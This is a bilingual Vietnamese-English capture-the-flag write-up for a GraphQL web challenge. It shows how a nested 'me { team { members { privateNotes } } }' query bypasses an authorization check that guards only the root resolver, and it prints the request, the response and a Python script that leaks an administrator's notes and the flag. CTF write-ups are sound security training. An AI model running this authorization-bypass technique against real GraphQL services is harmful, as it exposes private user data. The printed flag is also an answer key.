


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `POCTF{81.623.AH6ZSOTDT27RXRNZ.CLNMRCZIBOWCUYD5GG4NG2YILO}`

Thử thách Web 300 điểm tại cổng nghiên cứu hợp tác **Collaborative Research Portal** (`https://shape-of-query.pointeroverflowctf.com`).
Đề bài cảnh báo về việc "researchers meddling with each others' stuff", yêu cầu nộp token phiên của đội (thời hạn 15 phút) để bắt đầu.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Trao đổi Session Token và Khảo sát GraphQL Schema

Sau khi lấy token từ giao diện thử thách (`SHAPE1.623.81.AH6ZSOTDT27RXRNZ...`), gửi request tới endpoint trao đổi token:

```http
POST /session/exchange
Content-Type: application/json

{"token": "SHAPE1.623.81.AH6ZSOTDT27RXRNZ..."}
```

Server phản hồi `{"ok": true, "team_id": 623}` và cấp cookie `session`.

Truy cập endpoint `/graphql`, tính năng **Introspection** được kích hoạt đầy đủ. Phân tích schema cho thấy hệ thống có 4 type chính:
* `Query`: gồm `me: User` và `user(id: ID!): User`
* `User`: gồm `id`, `username`, `role`, `team: Team`, `privateNotes: String`
* `Team`: gồm `id`, `name`, `members: [User]`
* `UserRoleEnum`: `ADMIN`, `MEMBER`

---

## Bước 2: Lỗ hổng Field-Level Authorization Bypass

Khi truy vấn trực tiếp thông tin người dùng khác qua `user(id: "admin_623") { privateNotes }`, server trả về lỗi `Unauthorized: You do not have permission to view other users' notes`.

Tuy nhiên, cơ chế kiểm soát truy cập (Access Control) chỉ được áp dụng tại resolver gốc `Query.user`, trong khi resolver con của quan hệ `Team.members` hoàn toàn **không kiểm tra quyền xem `privateNotes`** của các thành viên trong cùng một team.

---

## Bước 3: Khai thác và Trích xuất Flag

Gửi payload GraphQL lồng thông qua `me`:

```graphql
query {
  me {
    team {
      name
      members {
        id
        username
        role
        privateNotes
      }
    }
  }
}
```

Server trả về toàn bộ ghi chú của mọi thành viên trong `Research Team 623`:
```json
{
  "data": {
    "me": {
      "team": {
        "name": "Research Team 623",
        "members": [
          {
            "id": "user_623",
            "username": "researcher_623",
            "role": "MEMBER",
            "privateNotes": "Grocery list, personal reminders. Nothing worth reading."
          },
          {
            "id": "admin_623",
            "username": "admin_623",
            "role": "ADMIN",
            "privateNotes": "POCTF{81.623.AH6ZSOTDT27RXRNZ.CLNMRCZIBOWCUYD5GG4NG2YILO}"
          }
        ]
      }
    }
  }
}
```

Có thể tái hiện bước đổi token và truy vấn bằng Python:

```python
import urllib.request
import json
import http.cookiejar

BASE = "https://shape-of-query.pointeroverflowctf.com"
cj = http.cookiejar.CookieJar()
opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))

token = "SHAPE1.623.81.AH6ZSOTDT27RXRNZ..."
req = urllib.request.Request(f"{BASE}/session/exchange", data=json.dumps({"token": token}).encode(), headers={"Content-Type": "application/json"})
opener.open(req)

query = "{me{team{members{id username role privateNotes}}}}"
req2 = urllib.request.Request(f"{BASE}/graphql", data=json.dumps({"query": query}).encode(), headers={"Content-Type": "application/json"})
res = json.loads(opener.open(req2).read().decode())
print(json.dumps(res, indent=2))
```

⇒ **Flag:** `POCTF{81.623.AH6ZSOTDT27RXRNZ.CLNMRCZIBOWCUYD5GG4NG2YILO}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `POCTF{81.623.AH6ZSOTDT27RXRNZ.CLNMRCZIBOWCUYD5GG4NG2YILO}`

This 300-point Web challenge runs the **Collaborative Research Portal** at `https://shape-of-query.pointeroverflowctf.com`. The prompt warns about researchers meddling with one another's work. A team token, valid for 15 minutes, starts the session.

---

## Solve Flow



---

## Step 1: Exchange the session token and inspect GraphQL

After receiving a token such as `SHAPE1.623.81.AH6ZSOTDT27RXRNZ...` from the challenge, exchange it for a session:

```http
POST /session/exchange
Content-Type: application/json

{"token": "SHAPE1.623.81.AH6ZSOTDT27RXRNZ..."}
```

The response includes `{"ok": true, "team_id": 623}` and sets a `session` cookie.

Introspection at `/graphql` is enabled. The schema exposes `Query` with `me: User` and `user(id: ID!): User`; `User` with `id`, `username`, `role`, `team: Team`, and `privateNotes: String`; `Team` with `id`, `name`, and `members: [User]`; and `UserRoleEnum` with `ADMIN` and `MEMBER`.

---

## Step 2: Identify the field-level authorization gap

A direct request for `user(id: "admin_623") { privateNotes }` fails with `Unauthorized: You do not have permission to view other users' notes`. This check sits on the root `Query.user` resolver. The nested `Team.members` resolver does not apply the same check to `privateNotes` for members of the same team.

---

## Step 3: Query nested members and extract the flag

Request the team members through `me`:

```graphql
query {
  me {
    team {
      name
      members {
        id
        username
        role
        privateNotes
      }
    }
  }
}
```

The response includes every member of `Research Team 623`, including the administrator's private notes:

```json
{
  "data": {
    "me": {
      "team": {
        "name": "Research Team 623",
        "members": [
          {
            "id": "user_623",
            "username": "researcher_623",
            "role": "MEMBER",
            "privateNotes": "Grocery list, personal reminders. Nothing worth reading."
          },
          {
            "id": "admin_623",
            "username": "admin_623",
            "role": "ADMIN",
            "privateNotes": "POCTF{81.623.AH6ZSOTDT27RXRNZ.CLNMRCZIBOWCUYD5GG4NG2YILO}"
          }
        ]
      }
    }
  }
}
```

The exchange and query can also be reproduced with Python:

```python
import urllib.request
import json
import http.cookiejar

BASE = "https://shape-of-query.pointeroverflowctf.com"
cj = http.cookiejar.CookieJar()
opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))

token = "SHAPE1.623.81.AH6ZSOTDT27RXRNZ..."
req = urllib.request.Request(f"{BASE}/session/exchange", data=json.dumps({"token": token}).encode(), headers={"Content-Type": "application/json"})
opener.open(req)

query = "{me{team{members{id username role privateNotes}}}}"
req2 = urllib.request.Request(f"{BASE}/graphql", data=json.dumps({"query": query}).encode(), headers={"Content-Type": "application/json"})
res = json.loads(opener.open(req2).read().decode())
print(json.dumps(res, indent=2))
```

The administrator's `privateNotes` contains the team flag:

⇒ **Flag:** `POCTF{81.623.AH6ZSOTDT27RXRNZ.CLNMRCZIBOWCUYD5GG4NG2YILO}`

</div>
